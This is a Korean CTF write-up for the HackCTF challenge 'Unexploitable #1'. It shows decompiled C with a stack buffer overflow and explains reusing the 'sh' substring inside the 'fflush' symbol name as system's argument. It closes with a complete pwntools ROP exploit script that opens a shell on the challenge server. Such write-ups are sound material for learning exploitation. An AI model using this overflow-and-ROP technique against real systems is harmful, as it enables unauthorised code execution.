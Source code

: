 ```yaml
---
title: "[HackCTF]Unexploitable #1"
date: 2019-12-26
ctf: HackCTF
layout: post
---
```


그냥 일종의 trick문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Easy RTL ha? You even have system@plt!\n", 1uLL, 0x27uLL, stdout);
  fflush(stdin);
  fgets(&s, 64, stdin);
  return 0;
}
```

system 가젯을 쓸 수 있다. 근데 fflush가 존재한다. 이거 그냥 Layer7 CTF talmo_party~! 문제에서 나왔던거랑 똑같다. objdump -h 로 .dynstr 위치 가져와서 fflush에서 sh만 가져와서 system함수 인자로 넘겨주면 된다. 

![](https://user-images.githubusercontent.com/32904385/71452273-c2987280-27c6-11ea-9071-3ea61a6d2db8.png) 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
e = ELF('./Unexploitable_1')
#p = process('./Unexploitable_1')
p = remote('ctf.j0n9hyun.xyz',3023)

sh = 0x4003bf
prdi = 0x00000000004007d3 # pop rdi ; ret

payload = ''
payload += '\x90' * 0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(sh)
payload += p64(e.plt['system'])
p.sendlineafter('!\n',payload)

p.interactive()
```

